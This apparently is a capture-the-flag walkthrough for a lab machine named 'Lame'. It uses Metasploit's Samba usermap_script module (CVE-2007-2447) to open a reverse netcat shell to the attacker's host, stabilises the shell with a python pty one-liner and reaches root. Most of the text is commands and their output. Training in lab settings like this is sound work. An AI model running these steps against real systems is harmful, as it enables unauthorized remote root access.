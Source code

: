 ![image](https://github.com/user-attachments/assets/6623cf5d-6d57-401b-9bb1-e522046892c0)

### Here is a ```CVE 2007-2447``` present on smb 3.0.20 that can be exploited by metasploit-framework
## Let use metasploit again.
```
hack@box:~Lame$ msfconsole -q
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > search CVE 2007-2447

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > 
```
### Ok let try this:
```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.175
LHOST => 10.10.14.175
msf6 exploit(multi/samba/usermap_script) > 
```
## Let exploit
```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.175:4444 
[*] Command shell session 1 opened (10.10.14.175:4444 -> 10.10.10.3:46212) at 2024-08-09 02:44:54 +0530
```
### awesome !!
## First of all let stable the shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
### Wow ! we are root .
```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.175:4444 
[*] Command shell session 1 opened (10.10.14.175:4444 -> 10.10.10.3:46212) at 2024-08-09 02:44:54 +0530

python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/# 
```